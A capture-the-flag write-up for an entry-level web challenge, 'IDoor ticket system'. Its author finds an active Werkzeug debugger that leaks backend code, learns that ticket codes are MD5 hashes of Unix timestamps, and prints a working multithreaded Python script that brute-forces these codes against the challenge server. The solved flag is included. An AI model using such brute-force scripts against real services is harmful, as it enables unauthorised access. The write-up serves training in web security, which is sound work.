



**Platform:**  CyberEDU
**Category:**  Web
**Difficulty:**  Entry Level
**Date:** 2026-08-18  
**Tags:** web, rocsc

---

## Overview
We are given a service to interact with an find a flag

## Reconnaissance

First when we access the link we see that the name of the application is `IDoor ticket system`, this could be IDOR vuln, after a little more recon, I've submitted multiple reuqests but noting happened, so I've decided to view the source of the page and I found the first hint:



As we can see, the web form shows us that it works with `PUT` method for creating tickets, we will send an invalid request to see what happens



As we can see, the server runs with Werkzeug Debugger on and we got a response with the whole traceback and intern logic of te backend, the backend threw a `BadRequestKeyError` because it tried to read from `request.form` and we sent a `request.json`. After analyzing the code, I saw that every ticket recives an access code computed after the following formula: `code = MD5(Unix Timestamp in seconds)`, the ticket we found as a hint return `Name: Nice one and the Message: Try harder!` so we need to bruteforce. I found out that `MD5("1628168161")=d63af914bd1b6210c358e145d61a8abc`, so basically this tells us that the base timestamp was `1628168161`, from this we bruteforce 300 seconds before and after this timestamp using the below code:

```python
import hashlib
import requests
import re
from concurrent.futures import ThreadPoolExecutor

TARGET_MD5 = "d63af914bd1b6210c358e145d61a8abc"
URL = "http://34.40.119.94:31207/"

base_ts = next(
    ts for ts in range(1500000000, 1800000000)
    if hashlib.md5(str(ts).encode()).hexdigest() == TARGET_MD5
)

session = requests.Session()

def check(offset):
    code = hashlib.md5(str(base_ts + offset).encode()).hexdigest()
    try:
        r = session.post(URL, data={"code": code}, timeout=3)
        if "ctf{" in r.text:
            print(re.search(r"ctf\{.*?\}", r.text).group(0))
    except Exception:
        pass

with ThreadPoolExecutor(max_workers=20) as executor:
    executor.map(check, range(-300, 301))
```

Everything was found reading the code that request vommited back, thanks to Werkzeug Debugger being active on the backend :D


## Flag 
`ctf{4086d9012b250dc1d821340f23b4af9b29d780552434175cb713b6d7502885c9}` 
